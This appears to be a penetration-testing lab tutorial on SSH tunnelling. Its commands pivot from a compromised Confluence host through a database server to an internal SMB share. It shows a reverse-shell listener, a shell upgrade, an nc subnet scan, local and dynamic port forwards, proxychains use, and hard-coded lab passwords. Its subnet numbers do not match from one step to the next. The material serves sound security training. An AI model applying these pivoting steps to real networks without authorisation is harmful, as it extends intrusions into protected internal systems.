

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# SSH Tunelling

**SSH tunneling encapsulates arbitrary network traffic inside an encrypted SSH connection**. It’s useful for securely accessing services across restrictive networks or pivoting through compromised systems. Port forwarding with SSH is controlled using options like `-L`, `-R`, and `-D`, depending on the direction of traffic.

## Local Port Forwarding

Local port forwarding is commonly used when you have **SSH access to a pivot machine** and want to access a service only it can reach. Unlike tools like `socat` or `chisel`, SSH is encrypted by design and blends into normal admin traffic. Expanding the [port forward scenario](port-foward.md):

* We compromised `CONFLUENCE01` (`192.168.125.63`) and have a reverse shell.
* From there, we can SSH to `PGDATABASE01` (`10.4.125.215`).
* `PGDATABASE01` has access to an SMB server on `HRSHARES` (`172.16.185.217:445`).

Our goal is to forward TCP port `445` on `172.16.185.217` to TCP port `4455` on `CONFLUENCE01`, then access it from our Kali machine.




```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ssh database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
...
database_admin@pgdatabase01:~$
```





```bash
database_admin@pgdatabase01:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
4: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:9e:a1:85 brd ff:ff:ff:ff:ff:ff
    inet 10.4.125.215/24 brd 10.4.125.255 scope global ens192
       valid_lft forever preferred_lft forever
5: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:9e:ab:53 brd ff:ff:ff:ff:ff:ff
    inet 172.16.125.254/24 brd 172.16.125.255 scope global ens224
       valid_lft forever preferred_lft forever
database_admin@pgdatabase01:~$ ip route
default via 10.4.125.254 dev ens192 proto static
10.4.125.0/24 dev ens192 proto kernel scope link src 10.4.125.215
172.16.125.0/24 dev ens224 proto kernel scope link src 172.16.125.254
```




We found that `PGDATABASE01` is on a `172.16.50.0/24` subnet. Without a port scanner, we used a Bash loop with `nc` to scan for hosts with port `445` open, discovering `172.16.50.217`.


```bash
database_admin@pgdatabase01:~$ for i in $(seq 1 254); do nc -zv -w 1 172.16.185.$i 445; done
<SNIP>
Connection to 172.16.185.217 445 port [tcp/microsoft-ds] succeeded!
<SNIP>
```




Instead of transferring files through multiple hosts (`PGDATABASE01` to `CONFLUENCE01` to Kali) , we can set up an SSH local port forwarding from `CONFLUENCE01` to `PGDATABASE01`. A local port forward can be set up using OpenSSH's `-L` option, which takes two sockets in the format `IPADDRESS:PORT` separated with a colon as an argument:

1. The first socket is the **listening socket** that will be bound to the SSH client machine.
2. The second socket is **where we want to forward the packets to**.
3. The rest of the SSH command is as usual - pointed at the SSH server.

> _The `-N` flag prevents SSH from executing any remote commands, meaning we will only receive output related to our port forward._

```bash
# general format
ssh -N -L <localport>:<target-host>:<target-port> <user>@<ssh-server>

# CONF to PGDA tunnel
ssh -N -L 0.0.0.0:4455:172.16.125.217:445 database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
```



From Kali, we can now list SMB shares.

```bash
$ smbclient -p 4455 -L //192.168.125.63/ -U hr_admin --password=Welcome1234

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
```



<figure><figcaption></figcaption></figure>


**Why Local Port Forwarding?**

* Service (SMB) isn’t directly reachable from Kali.
* Service is reachable by `PGDATABASE01`.
* Tunnel traffic through an SSH session on `CONFLUENCE01` → `PGDATABASE01` → `HRSHARES`.


## Dynamic Port Forwarding

**Local port forwarding can only connect to one specific destination per SSH connection**. With **dynamic port forwarding**, instead of connecting to just one destination, it creates a **SOCKS proxy server** on the SSH client.&#x20;

A **SOCKS proxy** works like a mailroom — it takes in network requests, reads where they need to go, and forwards them through the SSH connection to any destination the SSH server can reach. The only requirement is that the software sending the requests must be able to use SOCKS. If it isn’t, extra steps are needed to make it compatible.

In our scenario, instead of connecting directly to port `445` on `HRSHARES`, we’ll do it through our SSH SOCKS proxy. The problem is that `smbclient` doesn’t have built-in support for SOCKS proxies. Since SOCKS proxies expect traffic in a specific format, `smbclient`’s normal traffic won’t work through it. To solve this, we’ll use `proxychains` — a tool that forces other programs to send their traffic through a proxy. `proxychains` works well with most dynamically linked programs but not with statically linked ones. To use `proxychains`:




```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ssh -N -D 0.0.0.0:9999 database_admin@10.4.125.215
...
database_admin@10.4.125.215's password: sqlpass123
```




```bash
$ tail -n1 /etc/proxychains.conf
socks5 192.168.125.63 9999
```




```bash
$ sudo proxychains smbclient -L //172.16.125.217 -U hr_admin --password=Welcome1234
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.125.63:9999  ...  172.16.125.217:445  ...  OK

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts         Disk
        Users           Disk
```




> _Although we use **SOCKS5** here (which supports extra features like authentication and IPv6), **SOCKS4** could also work. Always check which version the proxy server supports during engagements._


**Why Dynamic Port Forwarding?**

* Dynamically access any host and port reachable by the SSH server without needing to forward each port individually.
* Particularly useful in complex pivot scenarios where multiple services across subnets are in play.


For `nmap` via `proxychains` the `-sT` flag must be used; the default `sudo` scan (`-sS`) won't work.

| Scan Type       | Method                       | Proxychains Compatibility |
| --------------- | ---------------------------- | ------------------------- |
| `-sS` (SYN)     | Raw packets (no connect())   | ❌ Not compatible          |
| `-sT` (Connect) | Standard TCP connect() calls | ✅ Fully compatible        |
